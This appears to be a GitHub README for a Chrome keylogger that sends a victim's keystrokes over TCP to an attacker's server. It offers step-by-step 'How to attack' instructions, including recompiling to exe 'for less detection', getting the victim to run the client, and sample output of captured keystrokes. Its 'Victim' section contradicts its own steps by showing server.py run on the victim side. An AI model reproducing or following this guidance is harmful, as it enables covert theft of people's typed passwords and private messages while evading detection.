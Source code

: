 # Chrome_keylogger
A keylogger that starts logging when chrome is running. This malware will send the keystrokes from a TCP client back to the malicious TCP server


# How to attack:
First of all, you can edit the code a bit and compile all the scripts into exe for less detection.

Follow these steps:
  1- The victim must run program.py, when the file is ran, the keylogger and the TCP Client will start too.\n
  2- The attacker must run server.py then bind his/her IP and port.\n
  3- You will start receiving everything the victim types.\n

# Deeper demonstration:
Attacker:\n
attacker@kali:~$ python3 server.py
    
    Output:
    IP: type_your_ip_here
    Port: 8080
    Client (client_ip) connected.
    
    2020-10-12 22:05:35,120: 'h'
    2020-10-12 22:05:35,390: 'i'
    2020-10-12 22:05:36,258: Key.space
    2020-10-12 22:05:36,631: 't'
    2020-10-12 22:05:36,806: 'h'
    2020-10-12 22:05:36,963: 'e'
    2020-10-12 22:05:37,080: 'r'
    2020-10-12 22:05:37,168: 'e'
Victim:

victim@kali:~$ python3 server.py    
